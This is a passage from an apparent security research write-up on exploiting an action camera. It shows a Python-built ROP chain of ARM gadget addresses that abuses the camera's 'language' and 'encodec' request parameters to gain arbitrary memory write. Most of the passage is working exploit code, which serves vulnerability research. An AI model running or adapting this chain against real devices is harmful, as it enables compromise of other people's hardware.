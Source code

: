 
Here it is reading the value at *0xc0008000*:

![mem_read.png](/assets/images/analysing_an_action_camera_part_3/mem_read.png)

## Memory Write

Writing memory uses a very similar technique to reading, except this time both the *language* and *encodec* parameters are used, storing the value and address respectively. The chain simply loads both values, and uses the **str r5,[r6#0x0]** gadget to do the write.

```
-python
...
# | 0xc0237e44 | c0237e44 | str r0,[r5,#0xc] | c0237e48 | ldmia sp!,{r4,r5,r11,pc} | 
request += p32(0xc09afa54 - 0x1c) # r4 <- pointer to encodec config struct
request += p32(0xdeadbeef) # r5 
request += p32(0xdeadbeef) # r11
request += p32(0xc058874c) # pc

# load pointer at language param into r5
# | 0xc058874c | c058874c | ldr r0,[r4,#0x1c] | c0588750 | ldmia sp!,{r4,r5,r11,pc} | 
request += p32(0xc0069468) # r4
request += p32(0xdeadbeef) # r5
request += p32(0xdeadbeef) # r11
request += p32(0xc0117ad4) # pc

# | 0xc0117ad4 | c0117ad4 | ldr r0,[r0,#0x14] | c0117ad8 | ldmia sp!,{r11,pc} |
request += p32(0xdeadbeef) # r11
request += p32(0xc058f124) # pc

# | 0xc058f124 | c058f124 | cpy r6,r0 | c058f130  | blx r4 | 

# | 0xc0069468 | ldmia sp!, {r4,pc} |
request += p32(0xc09afa30 - 0x1c) # r4 <- language config struct pointer in memory
request += p32(0xc058874c) # pc

## now load value at language param into some other register
# | 0xc058874c | c058874c | ldr r0,[r4,#0x1c] | c0588750 | ldmia sp!,{r4,r5,r11,pc} | 
request += p32(0xc003c2b8) # r4
request += p32(0xdeadbeef) # r5
request += p32(0xdeadbeef) # r11
request += p32(0xc0117ad4) # pc

# | 0xc0117ad4 | c0117ad4 | ldr r0,[r0,#0x14] | c0117ad8 | ldmia sp!,{r11,pc} |
request += p32(0xdeadbeef) # r11
request += p32(0xc03a33f4) # pc

# | 0xc03a33f4 | c03a33f4 | cpy r5,r0 | c03a33f8 | blx r4 | 

# | 0xc003c2b8 | c003c2b8 | str r5,[r6,#0x0] | c003c2bc | ldmia sp!,{r4,r5,r6,r7,r8,pc} |
...
```
